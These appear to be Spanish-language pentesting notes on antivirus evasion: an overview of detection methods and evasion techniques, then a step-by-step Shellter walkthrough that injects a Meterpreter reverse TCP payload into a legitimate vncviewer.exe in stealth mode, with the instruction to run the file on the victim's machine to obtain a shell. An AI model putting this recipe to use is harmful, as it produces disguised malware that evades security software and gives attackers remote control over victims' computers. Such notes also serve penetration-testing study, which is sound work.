 # Evasión con Shellter en un AV

Tags: #Shellter #AV 

La evasión de defensa consiste de técnicas que los adversarios usan para evitar la detección a través del compromiso. La técnica usada para la evasión de la defensa incluye instalar/desestabilizar el software de seguridad o ocultar/cifrar data y scripts. Los adversarios también, aprovechan y abusan de procesos para esconder o enmascarar sus malware.

El software antivirus normalmente utiliza detección basada en firmas, heuristica y comportamiento. 
1. Detección basada en firmas:  Una firma AV es una secuencia única de bytes que de manera única identifica malware. Como resultado, tendrá que asegurarse de que su exploit ofuscado o carga útil no coincide con ninguna firma conocida en la base de datos ANTIVIRUS. Podemos eludir la detccion basada en formas modificando la secuencia de bytes del malware, por lo tanto, cambiando la firma.
2. Detección basada en heuristica:  Se basa en reglas o decisiones para determinar si un binario es malicioso. También busca patrones específicos dentro del código o llamadas al programa. 
3. Detección basada en el comportamiento: Se basa en la identificación de malware mediante el monitoreo de su comportamiento. (Usado para nuevas cepas de malware)

Técnicas de evasión en disco:
1. Ofuscación: Se refiere al proceso de ocultar temporalmente algo importante, valioso o critico. La ofuscación reorganiza el código para que sea mas difícil de analizar o  RE (Ingeniería reversa).
2. Codificación: Codificar datos es un proceso que implica cambiar los datos a un nuevo formato utilizando un esquema. La codificación es un proceso reversible; los datos pueden codificar a un nuevo formato y decodificando a su formato original. 
3. Empaquetamiento: Generar un ejecutable con una nueva estructura binaria con un tamaño mas pequeño y por lo tanto, proporciona el payload con una nueva firma. 
4. Cifradores: Cifra el código o payloads y descifra el código cifrado en la memoria. La clave/función del descifrado generalmente se almacena en un stub. 

Técnicas de evasión en memoria:
1. Se enfoca en manipular la memoria y hace archivos no escribibles al disco.
2. Inyecta payload dentro de un proceso aprovechando varias APIs de Windows. 
3. El payload es también ejecutado en memoria en una amenaza separada. 

```bash 
❯ https://www.shellterproject.com/introducing-shellter/
```

## Shellter

Nos ayuda a inyectar una ReverShell en un archivo legitimo ejecutables en Windows.

```bash 
❯ apt install shellter                             # Instalamos Shellter, Shellter solo soporta 32 bit Payload
❯ apt install wine32
❯ dpkg --add-architecture i386 
```

```bash 
❯ cd /usr/share/windows-resources/shellter/        # Path donde se ecuentra Shellter

❯ wine shellter.exe                                # Ejecutamos Shellter
	❯ A                                           # Modo automatico 
	❯ /home/Desktop/AVBypass/vncviewer.exe        # Utilizaremos el 'vncviewer.exe' para inyectarle codigo malicioso
	❯ y                                           # Para que al momento de que se ejecute el .exe funcione con normalidad (Stealth mode)
	❯ L                                           # Listed payload or custom
	❯ 1                                           # Escogemos la opcion 1 (Meterpreter_Reverse_tcp)
	❯ <IP>                                        # Set LHOST del atacate
	❯ 443                                         # Set LPORT del atacante
```

Solo debemos de pasar el nuevo archivo .exe a la maquina victima y ejecutarlo para obtener la Revershell. 